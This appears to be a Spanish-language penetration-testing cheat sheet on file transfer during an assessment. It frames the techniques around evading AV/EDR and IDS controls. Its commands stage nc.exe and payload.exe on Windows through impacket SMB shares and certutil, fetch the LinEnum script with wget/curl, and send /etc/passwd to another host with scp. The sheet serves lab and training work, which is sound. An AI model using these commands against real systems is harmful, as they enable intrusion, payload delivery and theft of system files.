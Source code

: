 # Transferencia de Archivos

## Descripción
Comprender diferentes formas de realizar transferencias de archivos y cómo funcionan las redes puede ayudarnos a lograr nuestros objetivos durante una evaluación. Debemos ser conscientes de los controles del host que pueden impedir nuestras acciones, como la inclusión en listas blancas de aplicaciones o el bloqueo AV/EDR de aplicaciones o actividades específicas. Las transferencias de archivos también se ven afectadas por dispositivos de red como Firewalls, IDS o IPS que pueden monitorear o bloquear puertos particulares u operaciones poco comunes.

### Linux - Windows (smb no autenticado)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare (Linux)
copy \\192.168.220.133\share\nc.exe (windows)
```
### Windodws a linux (smb no autenticado)

```python
wget http://10.10.23.2/archivo.txt -O archivo_local.txt (shell en kali linux previamente)
```

### Linux - Windows (smb con autentificación)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test (Linux)
net use n: \\192.168.220.133\share\FILENAME /user:test test (windows)
```

### Web Download

```python
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Alternativas distintas
```python
python3 -m http.server
python2.7 -m SimpleHTTPServer
wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload
```python
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
scp archivo.txt usuario@192.168.1.100:/home/usuario (windows a kali)
```

### Certuil Tranferir archivos
```python
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe (windows)
certutil -urlcache -f http://10.10.23.2/payload.exe payload.exe (windows)
```
